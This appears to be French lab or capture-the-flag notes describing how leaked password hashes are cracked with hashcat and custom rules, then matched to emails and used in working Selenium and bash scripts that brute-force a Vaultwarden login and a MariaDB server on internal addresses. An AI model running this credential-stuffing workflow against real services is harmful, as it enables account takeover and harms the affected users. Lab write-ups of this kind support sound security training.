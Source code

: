 	
	On va maintenant essayer de trouver avec quel algorythme les mots de passe ont été hashé,
	pour ce faire on va utiliser hashcat
	
	![[Pasted image 20250131131751.png]]
	hashcat nous retourne plusieurs méthode de hashage possible, on peux désormais essayer chaque méthode de de hashage avec une liste de mot de passe courant ici rockyou
	
	avec cette commande "hashcat -m 17600 -a 0 "Desktop/hashs" Desktop/rockyou.txt -O"
	on obtient 4 mots de passe
	
	theused13
	hockey43 
	12373 
	3976553
	
	on peux voir des similitudes entres ses mdps la plus flagrante c'est le 3 qui est rajouté a la fin de chaque mot de passe, on va teste notre théorie en rajoutant une règle a hashcat lui disant de rajouter "3" a la fin de chaque mot de passe dans la liste rockyou
	
	pour ce faire on fait un fichier texte et on écrit dedans : "$3" indiquant à hashcat d'append 3
	
	hashcat -m 17600 -a 0 "Desktop/coco.txt" Desktop/hashs.txt -O -r the.rule
	
	avec le flag -r on peux dire a hashcat d'utiliser notre règle précédement crée et on obtient 200 nouveaux mots de passe
	
	avec un plus grand échantillon on peut en déduire de nouvelles règles
	- tout les mots de passe sont en minuscule
	- tout les a sont remplacés par des @
	
	On modifie maitenant la règle précédement crée, "sa@" indique que toutes les instances de "a" doivent être remplacées par @ et "l"  lui indique que tout doit être en minuscule
	
	On vérifie si notre résonnement est correcte
	
	 "hashcat -m 17600 -a 0 "Desktop/hashs" Desktop/rockyou.txt -O -r the.rules"
	
	![[Pasted image 20250131133431.png]]
	
	Bim ! 470 hashs unique trouvés 
	
	Maintenant qu'on a les mots de passe on va créer in fichier un l'aide d'in script python qui va associer chaque mot de passe à l'adresse e-mail correspondante.
	
	import hashlib
	
	import pandas as pd
	
	# Chemins des fichiers
	
	passwords_file = "hash.txt"
	
	emails_file = "dbo.authentication.csv"
	
	output_file = "credentials.txt"
	
	
	# Lire le fichier des mots de passe et stocker les hashes associés aux mots de passe
	
	passwords = {}
	
	with open(passwords_file, "r") as file:
	
	for line in file:
	
	parts = line.strip().split(":")
	
	if len(parts) == 2:
	
	hash_value, password = parts
	
	passwords[hash_value] = password
	
	  
	
	# Lire le fichier CSV contenant les adresses e-mail et les hashes des mots de passe
	
	emails_df = pd.read_csv(emails_file)
	
	  
	
	# Associer les hashes aux emails
	
	matched_credentials = []
	
	for index, row in emails_df.iterrows():
	
	email = row["username"]
	
	hash_value = row["password"]
	
	if hash_value in passwords:
	
	matched_credentials.append((email, passwords[hash_value]))
	
	  
	
	# Écrire les correspondances dans un fichier texte
	
	with open(output_file, "w") as file:
	
	for email, password in matched_credentials:
	
	file.write(f"{email}:{password}\n")
	
	  
	
	print(f"Fichier généré : {output_file}")
	
	On a maintenant un fichier qu'on peut facilement utiliser pour brute-force un service.
	
	on a désormais trois chemin possible avec cette methode:
	- Un service ssh( peu probable )
	- Une page web voltwarden (possible)
	- un service mariaDB (fortement probable)
	
	on a commencé par essayer de brute-force voltwarden à l'aide de ce script python
	
	```
	from selenium import webdriver
	from selenium.webdriver.common.keys import Keys
	from selenium.webdriver.common.by import By
	import time
	
	driver = webdriver.Firefox()
	driver.get("https://172.16.10.42/#/login")
	time.sleep(2)
	
	
	with open("matched_credentials.txt") as file_in:
	    lines = []
	    for line in file_in:
	        creds = line.split(':')
	        mail_input = driver.find_element(By.ID, "bit-input-1")
	        mail_input.clear()
	        mail_input.send_keys(creds[0])
	        mail_input.send_keys(Keys.RETURN)
	        passwdinput = driver.find_element(By.ID, "bit-input-0")
	        passwdinput.send_keys(creds[1])
	        passwdinput.send_keys(Keys.RETURN)
	        if "Get master password hint" in driver.page_source:
	            driver.find_element(By.LINK_TEXT, "Not you?").click()
	            time.sleep(1)
	        else: 
	            print(mail_input)
	            print(passwdinput)
	driver.close()
	```
	
	sans succès 
	
	on va maintenant essayer d'attaquer mariaDB avec ce script bash
	
	```
	#!/bin/bash
	
	IFS=''
	while read line; do
	    user=$(echo $line | cut -d ':' -f 1)
	    pass=$(echo $line | cut -d ':' -f 2)
	    echo "mysql --ssl-verify-server-cert=FALSE --host 172.16.10.43 -u ${user} -p${pass}"
	    mysql --ssl-verify-server-cert=FALSE --host 172.16.10.43 -u ${user} -p${pass}
	done < credentials.txt
	```
	



